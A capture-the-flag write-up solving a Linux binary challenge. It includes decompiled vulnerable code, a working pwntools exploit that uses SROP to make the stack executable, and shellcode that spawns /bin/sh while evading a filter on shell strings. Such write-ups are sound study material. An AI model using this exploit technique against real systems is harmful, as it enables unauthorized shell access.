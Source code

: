 # Database Intrusion - Writeup

---

## Exploit Demo

This demo shows the full exploitation flow:

![Alt text](gif/DatabaseIntrusion.gif)

---

## Binary Inspection

We begin by examining the binary format and security properties.

### Step 1: Binary Format

```bash
$ file main
```

The binary is a 64-bit dynamically linked PIE executable.

![Alt text](img/1.png)

---

### Step 2: Security Properties

```bash
$ pwn checksec main
```

Security summary:

- **Full RELRO**
- **No Stack Canary**
- **NX enabled**
- **PIE enabled**

![Alt text](img/2.png)

---

## Static Analysis (IDA Pro)

```c
int vuln() {
  _BYTE buf[64];
  printf(">> Secure channel established at %p:%p.\n", buf, vuln);
  read(0, buf, 0x190);
  check_forbidden(buf);
  return puts("Hint: You don't need ga\ndgets for rax!");
}
```

![Alt text](img/3.png)

- `buf` and `vuln` addresses are leaked.
- `check_forbidden()` runs _after_ the overflow, so shellcode must not contain blocked substrings.
- Buffer is on the **stack**, so we need to **mprotect** it before execution.

---

## Vulnerability Summary

The function `vuln()` contains a **buffer overflow** on a 64-byte buffer due to an unchecked `read()` call that reads **0x190 bytes**:

```c
char buf[64];
read(0, buf, 0x190);  // Vulnerable
```

![Alt text](img/4.png)

Furthermore, a `check_forbidden()` function filters out strings such as `/bin/sh`, `ls`, `bash`, and more — preventing traditional `system("/bin/sh")` shellcode or command injection.

---

## Exploit Strategy

Due to the NX bit and forbidden string filter, we use **Sigreturn-Oriented Programming (SROP)** to:

1. Call `mprotect()` to mark the stack **RWX**.
2. Inject and execute a **custom shellcode** that avoids forbidden strings.

### Overview

1. **Leak PIE base** from `printf("%p:%p", buf, vuln)` in `vuln()`.
2. **Page-align the stack buffer** to use in `mprotect()`.
3. **Craft a SROP frame** that sets up a `mprotect` syscall to make stack executable.
4. **Inject shellcode** directly into the buffer.
5. **Jump to shellcode** after stack permissions are changed.

---

## Exploit Script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *
context.arch = 'amd64'
context.os = 'linux'
# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

#--------------------------------[ STEP 1 : PIE_BASE ]--------------------------------

io.recvuntil(b'>> Secure channel established at ')
leak_vals = io.recvline().split(b':')
log.success	(f"leak_vals : {leak_vals}")
buf_addr = int(leak_vals[0],16)
vuln_addr = int(leak_vals[1].strip()[:-1],16)
log.success(f"buf @ : {hex(buf_addr)} ,, vuln @ : {hex(vuln_addr)}")
pie_base = vuln_addr - exe.sym['vuln']
exe.address = pie_base
log.success(f"exe.address @ {hex(exe.address)}")

#------------------[ STEP 2 : MAKE STACk RWX WITH MPROTECT SYSCALL ]------------------

# Setup ROP and gadgets
rop = ROP(exe)
syscall_gad = rop.find_gadget(['syscall'])[0]
ret_gad = rop.find_gadget(['ret'])[0]

# Page align the buffer address for mprotect
page_size = 0x1000
page_aligned_addr = buf_addr & ~(page_size - 1)

# Build SigreturnFrame for mprotect syscall
frame = SigreturnFrame()
frame.rax = 10            # syscall number for mprotect
frame.rdi = page_aligned_addr  # page-aligned address
frame.rsi = page_size     # length (one page)
frame.rdx = 7             # PROT_READ | PROT_WRITE | PROT_EXEC
frame.rip = syscall_gad   # syscall; ret gadget address
frame.rsp = buf_addr  # new stack pointer after sigreturn

#-------------------------------[ STEP 3 : SHELLCODE ]-------------------------------

shellcode = asm('''
    xor rsi, rsi
    push rsi
    mov rdi, 0x68732f2f6e69622f
    push rdi
    mov rdi, rsp
    xor rdx, rdx
    mov al, 0x3b
    syscall
''')

#--------------------------------[ STEP 4 : PAYLOAD ]--------------------------------

offset = 16
payload=p64(buf_addr+8)
payload+= shellcode
payload+= b'\x90' * (72 - len(payload) )
payload+= p64(syscall_gad)
payload+=bytes(frame)

io.recvuntil(b'>> Root key required to proceed:\n')
io.sendline(payload)



io.interactive()



```

---

## Final Notes

- The SROP frame allows us to _bypass the NX bit_.
- The injected shellcode is carefully crafted to avoid any substrings checked by `check_forbidden()`.
- We pivot back into the shellcode via `rsp` in the frame after `mprotect()` succeeds.

---

## Result

After successful execution, a shell is spawned **without using any forbidden string**, granting control of the target system.

---

## Flag

```
RedPointer{X!r7v9-Kaleido.phs}
```
